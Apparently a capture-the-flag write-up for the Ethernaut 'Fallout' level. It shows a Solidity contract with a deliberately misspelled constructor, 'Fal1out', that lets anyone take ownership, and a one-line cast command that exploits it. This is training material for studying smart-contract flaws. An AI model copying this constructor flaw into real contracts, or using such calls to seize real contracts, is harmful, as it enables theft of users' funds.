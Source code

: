 ## Fallout Level Outline


**Difficulty : 2/10**

Claim ownership of the contract below to complete this level.

```solidity  
// SPDX-License-Identifier: MIT
pragma solidity ^0.6.0;

import '@openzeppelin/contracts/math/SafeMath.sol';

contract Fallout {
  
  using SafeMath for uint256;
  mapping (address => uint) allocations;
  address payable public owner;


  /* constructor */
  function Fal1out() public payable {
    owner = msg.sender;
    allocations[owner] = msg.value;
  }

  modifier onlyOwner {
    require(
      msg.sender == owner,
      "caller is not the owner"
    );
    _;
  }

  function allocate() public payable {
    allocations[msg.sender] = allocations[msg.sender].add(msg.value);
  }

  function sendAllocation(address payable allocator) public {
    require(allocations[allocator] > 0);
    allocator.transfer(allocations[allocator]);
  }

  function collectAllocations() public onlyOwner {
    msg.sender.transfer(address(this).balance);
  }

  function allocatorBalance(address allocator) public view returns (uint) {
    return allocations[allocator];
  }
}
```

[Link to level on Ethernaut](https://ethernaut.openzeppelin.com/level/0x5732B2F88cbd19B6f01E3a96e9f0D90B917281E5)

## Solution

Notice how the contract's "contructor" is not really a constructor

### Walkthrough
##### 1. call the "Fal1out()" function
```console
cast send $LEVEL_ADDRESS "Fal1out()" --private-key $PRIVATE_KEY
```
